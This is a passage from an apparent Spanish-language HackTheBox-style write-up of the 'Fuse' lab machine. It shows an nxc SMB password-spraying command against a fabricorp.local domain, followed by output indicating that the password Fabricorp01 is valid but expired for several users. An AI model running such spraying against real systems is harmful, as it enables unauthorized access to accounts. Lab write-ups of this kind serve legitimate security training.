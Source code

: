 # Password Spraying
Con `nxc` vamos a hacer password spraying, a ver si conseguimos alguna cuenta.

```shell
$ nxc smb 10.129.2.5 -u users.txt -p passwords.txt --shares
SMB         10.129.2.5      445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\pmerton:mega_mountain_tape_request STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bnielson:mega_mountain_tape_request STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\tlavel:mega_mountain_tape_request STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\sthompson:mega_mountain_tape_request STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bhult:mega_mountain_tape_request STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\pmerton:mega_mountain STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bnielson:mega_mountain STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\tlavel:mega_mountain STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\sthompson:mega_mountain STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bhult:mega_mountain STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\pmerton:mega_mountain_tape STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bnielson:mega_mountain_tape STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\tlavel:mega_mountain_tape STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\sthompson:mega_mountain_tape STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bhult:mega_mountain_tape STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\pmerton:Fabricorp01 STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bnielson:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\sthompson:Fabricorp01 STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\pmerton:fabricorp01 STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bnielson:fabricorp01 STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\tlavel:fabricorp01 STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\sthompson:fabricorp01 STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bhult:fabricorp01 STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\pmerton:backup_tapes STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bnielson:backup_tapes STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\tlavel:backup_tapes STATUS_LOGON_FAILURE
```